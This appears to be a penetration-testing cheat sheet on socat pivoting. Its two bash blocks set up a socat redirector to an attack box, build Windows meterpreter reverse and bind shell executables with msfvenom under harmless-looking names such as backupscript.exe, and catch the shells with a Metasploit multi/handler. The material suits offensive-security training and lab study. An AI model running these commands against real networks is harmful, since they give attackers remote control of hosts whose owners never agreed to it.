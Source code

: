 No need for SSH tunneling

Socat acts as a redirector that can listen on one host and port and forward that data to another IP address and port.

Socat Reverse shell redirection
```bash
# on pivot_host, start listener (8080) and forward to <attack_box:80>
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80

# Create msfvenom meterpreter payload for internal_ip. Lhost=pivot_box_internal_ip, lport:pivot_box_listen_port
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

# Start msfconsole handler, catch shell
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport <attack_box_forward_port>
run
```

Socat Bind Shell Redirection
```bash
# create bind shell with msfvenom, run on internal box
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443

# start socat bind shell listener on PIVOT_box, listens on 8080, forwards to internal ip:8443
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443

# configure bind multi/handler
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set RHOST <pivot_external_ip>
set LPORT <pivot_listen_port>
run
```